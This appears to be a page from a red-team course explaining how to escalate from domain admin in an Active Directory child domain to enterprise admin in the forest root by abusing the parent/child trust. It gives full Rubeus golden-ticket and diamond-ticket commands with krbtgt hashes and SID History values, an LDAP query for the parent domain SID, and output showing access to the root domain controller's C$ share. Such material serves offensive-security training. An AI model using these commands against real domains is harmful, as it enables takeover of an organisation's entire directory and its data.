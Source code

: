 # Parent/Child Trusts

When a new domain is added to an existing tree, a two-way transitive trust is automatically created between it (the child) and its parent domain.  It doesn't matter how far you go down - child.domain.com, grandchild.child.domain.com, or greatgrandchild.grandchild.child.domain.com - because these trusts are transitive, there is always an implicit two-way trust between all of these child domains, and the tree root (domain.com).

Querying the TDO shows a bidirectional trust with contoso.com.

```
beacon> ldapsearch (objectClass=trustedDomain)

name: contoso.com
trustDirection: 3
trustAttributes: 32
flatName: CONTOSO
```

If an adversary is able to gain domain admin privileges in any child domain, they can elevate their privileges to that of enterprise admin in the forest.  This is achieved by forging a golden ticket with a special attributes called SID History, which was designed to support migration scenarios where a user would be moved from one domain to another.  To preserve access to resources in the 'old' domain, the user's previous SID would be added to the SID History of their new account.  When creating a ticket to abuse the trust relationship, the SID of a privileged group (e.g. enterprise admins) in the parent domain can be added to the ticket.

This ticket can be crafted entirely offline:

```
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:2eabe80498cf5c3c8465bb3d57798bc088567928bb1186f210c92c1eb79d66a9 /user:Administrator /domain:dublin.contoso.com /sid:S-1-5-21-690277740-3036021016-2883941857 /sids:S-1-5-21-3926355307-1661546229-813047887-519 /nowrap
```

Where:

* `/aes256` is the AES hash of the child domain's krbtgt account.
* `/user` is the user you want to impersonate.
* `/domain` is the child domain.
* `/sid` is the SID of the child domain.
* `/sids` is a list of SIDs you want in the ticket's SID history.

You can get the parent's domain SID via LDAP by querying a domain controller within that domain. Make sure to set the query base to that of the parent domain's distinguished name.

```batch
beacon> ldapsearch (objectClass=domain) --attributes objectSid --hostname lon-dc-1.contoso.com --dn DC=contoso,DC=com

Binding to lon-dc-1.contoso.com

[*] Distinguished name: DC=contoso,DC=com
[*] Filter: (objectClass=domain)
[*] Scope of search value: 1
[*] Returning specific attribute(s): objectSid

--------------------
objectSid: S-1-5-21-3926355307-1661546229-813047887
```

Or it can be created using the diamond technique:

```batch
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /sids:S-1-5-21-3926355307-1661546229-813047887-512 /krbkey:2eabe80498cf5c3c8465bb3d57798bc088567928bb1186f210c92c1eb79d66a9 /nowrap
```

Where:

* `/tgtdeleg` gets a usable TGT for the current user.
* `/ticketuser` is the user you want to impersonate.
* `/ticketuserid` is the RID of the impersonated user.
* `/sids` is a list of SIDs you want in the ticket's SID history.
* `/krbkey` is the AES256 hash of the child domain's krbtgt account.&#x20;

Once the ticket is injected into a logon session, it can be used to access the forest root domain controller.

```batch
beacon> ls \\lon-dc-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/24/2025 13:33:39   $Recycle.Bin
          dir     01/23/2025 13:57:51   $WinREAgent
          dir     01/23/2025 13:47:37   Documents and Settings
          dir     05/08/2021 09:20:24   PerfLogs
          dir     01/23/2025 15:46:17   Program Files
          dir     01/23/2025 15:46:18   Program Files (x86)
          dir     03/03/2025 13:38:06   ProgramData
          dir     01/23/2025 13:47:43   Recovery
          dir     01/29/2025 10:42:20   System Volume Information
          dir     01/24/2025 13:33:21   Users
          dir     01/24/2025 13:49:56   Windows
 12kb     fil     03/13/2025 05:44:35   DumpStack.log.tmp
 1gb      fil     03/13/2025 05:44:35   pagefile.sys
```
